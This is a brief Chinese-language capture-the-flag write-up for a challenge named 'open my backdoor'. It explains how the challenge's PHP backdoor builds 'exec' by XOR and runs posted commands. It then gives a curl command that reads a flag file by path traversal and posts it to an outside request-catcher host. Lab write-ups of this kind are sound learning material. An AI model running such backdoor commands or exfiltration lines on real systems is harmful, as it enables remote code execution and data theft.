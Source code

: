 # open my backdoor

點進題目就可以看到一段 php 的 code，花了一些時間理解後解題思路就出來了，基本上就是透過 GET[87] 中的字串與 door 經過 xor 後得到 exec，接著執行 POST["#"] 中的內容。

第一個踩到的坑是以為程式裡面的第2行是從 `<?php` 開始算。
第二個坑是不知道 GET 裡面要用 uri encode。

再來就是如何把指令回傳的結果傳回來，因為指令是在server上跑的，google 一下後發現有 request receiver 這種東西，就不用自己架一個 server，接著就容易了，丟給 POST["#"]:
```
curl -X POST -d $(cat ../../../flag_is_here) \ 
https://stillfantasy.requestcatcher.com/test
```
即可得到 flag，至於 flag 的路徑可以透過 ls 取代上方 cat 指令慢慢搜索即可得到。
